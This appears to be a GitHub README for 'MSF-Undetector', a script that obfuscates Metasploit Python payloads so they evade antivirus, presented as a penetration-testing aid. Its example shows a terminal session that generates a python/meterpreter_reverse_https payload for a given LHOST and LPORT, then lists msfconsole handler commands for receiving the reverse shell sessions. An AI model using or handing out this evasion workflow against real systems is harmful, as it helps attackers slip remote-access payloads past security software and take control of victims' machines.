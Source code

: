 # MSF-Undetector
Metasploit python-payload obfuscation, to allow penetration testers bypass Antivirus solutions.

# Requirements
Linux OS, with metasploit installed

# Example
```
analyser@parrot:~/msfud$ python ./msfud.py
IP Address [LHOST]: 192.168.1.65
Local Port [LPORT]: 443
No platform was selected, choosing Msf::Module::Platform::Python from the payload
No Arch selected, selecting Arch: python from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 51790 bytes

Done! Run msfconsole with the following commands.
--------------------
use exploit/multi/handler
set PAYLOAD python/meterpreter_reverse_https
set LPORT 443
set LHOST 0.0.0.0
SessionExpirationTimeout 0
SessionCommunicationTimeout 0
ExitOnSession false
exploit -j -z
--------------------
Happy Hacking!
analyser@parrot:~/msfud$
```

